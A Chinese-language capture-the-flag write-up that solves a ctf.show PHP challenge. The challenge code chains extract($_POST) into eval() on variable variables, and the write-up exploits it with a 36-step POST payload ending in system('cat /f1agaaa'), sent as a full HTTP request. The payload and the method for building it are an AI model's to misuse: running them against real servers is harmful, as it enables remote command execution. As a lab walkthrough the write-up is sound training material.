 # 我的眼里只有$

[题目地址](https://ctf.show/challenges#%E6%88%91%E7%9A%84%E7%9C%BC%E9%87%8C%E5%8F%AA%E6%9C%89$-3869)

没有难点，但是很绕。关键在于知道[extract](https://www.php.net/manual/zh/function.extract.php)函数。官方文档写的有点绕，不过给出的例子还是很清晰的。就是把数组的键当作变量，值为原数组键的值。$符号传引用，举个例子：

```php
<?php
$a='yes';
$b='a';
echo $$b;
?>
```

输出yes。可以这么看就不绕了：先读最右边的\$b,得到a，和剩下的\$拼起来得到\$a,获得yes的值。更多\$的情况也能这么读，一个一个往左边消。现在看题。

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-11-10 17:20:38
# @Last Modified by:   h1xa
# @Last Modified time: 2022-11-11 08:21:54
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
extract($_POST);
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);
highlight_file(__FILE__);
```

首先要数有多少个$。count函数得到36个，那就要往post里传36个值，最后一个是要执行的命令。手打很累，直接python脚本。

```python
from string import ascii_letters
print('$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$'.count('$'))
for i in range(35):
  print(f"${ascii_letters[i]}='{ascii_letters[i+1]}';")
for i in range(35):
  print(f"={ascii_letters[i]}&{ascii_letters[i]}",end='')
```

第一个for语句是拿来做实验的。

```php
<?php
$_='a';
$a='b';
$b='c';
$c='d';
$d='e';
$e='f';
$f='g';
$g='h';
$h='i';
$i='j';
$j='k';
$k='l';
$l='m';
$m='n';
$n='o';
$o='p';
$p='q';
$q='r';
$r='s';
$s='t';
$t='u';
$u='v';
$v='w';
$w='x';
$x='y';
$y='z';
$z='A';
$A='B';
$B='C';
$C='D';
$D='E';
$E='F';
$F='G';
$G='H';
$H='I';
$I="system('ls');";
echo $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_;
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);
?>
```

最后bp发包。（获取flag前先用ls /查看flag名）。

```
POST / HTTP/1.1
Host: f8d2531f-4ba8-4dea-b890-4b815f21cca5.challenge.ctf.show
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 165

_=a&a=b&b=c&c=d&d=e&e=f&f=g&g=h&h=i&i=j&j=k&k=l&l=m&m=n&n=o&o=p&p=q&q=r&r=s&s=t&t=u&u=v&v=w&w=x&x=y&y=z&z=A&A=B&B=C&C=D&D=E&E=F&F=G&G=H&H=I&I=system('cat+/f1agaaa');
```

## Flag
> ctfshow{ed724973-cfa9-43a5-a790-b19a1c3928c5}